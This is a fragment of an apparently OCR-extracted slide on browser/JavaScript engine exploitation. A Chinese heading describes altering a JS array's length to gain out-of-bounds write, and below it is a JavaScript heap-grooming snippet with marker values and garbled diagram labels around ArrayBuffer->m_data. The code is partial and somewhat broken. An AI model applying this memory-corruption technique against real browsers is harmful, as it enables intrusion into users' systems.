

01.修改jsArray的length获得越界写能力

 var buffer=new ArrayBuffer(0x100000-0x40);
    srcarray=new Uint32Array(buffer);
    srcarray[0]=0x21212121;
    srcarray[1]=i;
    for(var j=0x10;j<0x20;j++){
        srcarray[j]=0x41414141;
    }
dstarray=new Array(0x20000-0x40);
    dstarray[0]=i;
    dstarray[1]=0x212121;
    for(var j=2;j<0x20000-0x40;j++){
        dstarray[i]=0x21;
    }
Dst

Arraybuffer->m_data
Ssrc
rc
Dstarray

Arraybuffer->m_data
Arraybuffer->mdata